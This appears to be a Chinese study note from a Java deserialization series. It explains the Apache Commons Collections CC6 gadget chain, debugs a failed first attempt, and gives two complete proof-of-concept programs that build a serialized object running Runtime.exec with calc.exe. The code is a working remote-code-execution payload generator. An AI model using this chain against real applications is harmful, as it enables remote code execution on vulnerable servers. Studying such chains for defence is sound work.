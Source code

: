```yaml
---
created: '21/11/07'
title: 反序列化篇6
tags:
  - java
  - java安全
  - 反序列化
---
```

# 反序列化篇6
## CC6
反序列化篇5提到了CC1链在java8高版本并不适用，当我们去尝试，会产生报错:`java.lang.annotation.Retention missing element entrySet`。

这是由于`AnnotationInvocationHandler`在高版本中改变了readObject的逻辑，不再使用我们精心构造的`LazyMap`而是使用自己新建的`LinkedHashMap`，导致该对象无法获得`entrySet`的内容，所以会报前面的这个错误。

为了解决高版本的利用问题，我们需要重新构造链的前半部分，寻找是否有其他地方能够调用`LazyMap.get()`方法。

找到的地方是`org.apache.commons.collections.keyvalue.TiedMapEntry`，在其`getValue`方法中调⽤了`this.map.get`，而其`hashCode`，`toString`，`equals`方法都调用了自身的`getValue`方法。

```java
import org.apache.commons.collections.KeyValue;
public class TiedMapEntry implements Entry, KeyValue, Serializable { 
    private static final long serialVersionUID = -8453869361373831205L;
    private final Map map; private final Object key;
    public TiedMapEntry(Map map, Object key) { 
        this.map = map; this.key = key;
    }
    public Object getKey() { 
        return this.key;
   }
    public Object getValue() { 
        return this.map.get(this.key);
    }
    // ...
    public int hashCode() { 
    Object value = this.getValue();
    return (this.getKey() == null ? 0 : this.getKey().hashCode()) ^(value == null ? 0 : value.hashCode());
    }
// ... 
}
```
在ysoserial中，是利用了`java.util.HashSet.readObject()`->`HashMap.put()`->`HashMap.hash(key)` ->`TiedMapEntry.hashCode()`。
而实际上，在`java.util.HashMap.readObject()`就有`hash(key)`的操作，我们可以利用此来构造gadget。

### 构造gadget
构造的时候使用了一些技巧，先创建了一个fakeTransformers，在序列化的前一刻才将其替换为真正的Transformers，这样能够防止我们在生成poc时的本地命令执行。
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(1),
        };

        // 先使用fakeTransformer防止本地命令执行
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "keykey");

        Map objMap = new HashMap();
        objMap.put(tiedMapEntry, "valuevalue");

        // 使用反射替换transformerChain的transformers
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(objMap);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```
当我们执行这段代码的时候，发现反序列化时并没有弹出来计算器! 这是为什么呢？

### 为什么没有成功执行
我们尝试在`LazyMap.get`方法中下一个断点调试一下，发现问题:
![](https://gitee.com/guuest/images/raw/master/img/20211107114655.png)

我们在构造gadget的时候就触发了`LazyMap.get`方法，导致`LazyMap`的假利用链被提前触发，而当我们真正想要去反序列化时，LazyMap已经存在`keykey`这个键，导致我们无法进入`this.factory.transfrom`这个语句触发我们真正的利用链，但是我们并没有去手动调用`LazyMap.get`，为什么这个方法会触发呢？

我们回顾源码，只有在`TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "keykey");`这句话中存在keykey，当我们去查看`HashMap.put`方法时，我们发现了罪魁祸首:
![](https://gitee.com/guuest/images/raw/master/img/20211107115113.png)
当我们构造gadget时会将`TiedMapEntry`手动put到HashMap，导致其触发了`hash(key)`->`TiedMapEntry.hashCode()`->`TiedMapEntry.getValue()`提前触发了我们的链，并且将该key存入了`outerMap`，下次我们真正利用时由于`outerMap`已经存在该key而导致利用链失败!

了解了原因之后我们就很好解决该问题了: 在`objMap.put`之后调用`outerMap.remove`删除该key即可。

### 最终poc
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(1),
        };

        // 先使用fakeTransformer防止本地命令执行
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "keykey");

        Map objMap = new HashMap();
        objMap.put(tiedMapEntry, "valuevalue");
        outerMap.remove("keykey");

        // 使用反射替换transformerChain的transformers
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(objMap);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```

### 总结
整条链的调用逻辑为:
```
HashMap.readObject()
  hash(key) === key.hashCode() === TiedMapEntry.hashCode()
    TiedMapEntry.getValue()
      LazyMap.get()
         ChainedTransformer.transform()
	      ConstantTransformer.transform() // 获取Runtime.class
	      InvokerTransformer.transform()   // 获取Runtime.getRuntime
	      InvokerTransformer.transform()   // 获取Runtime实例
	      InvokerTransformer.transform()   // 调用exec方法触发rce
```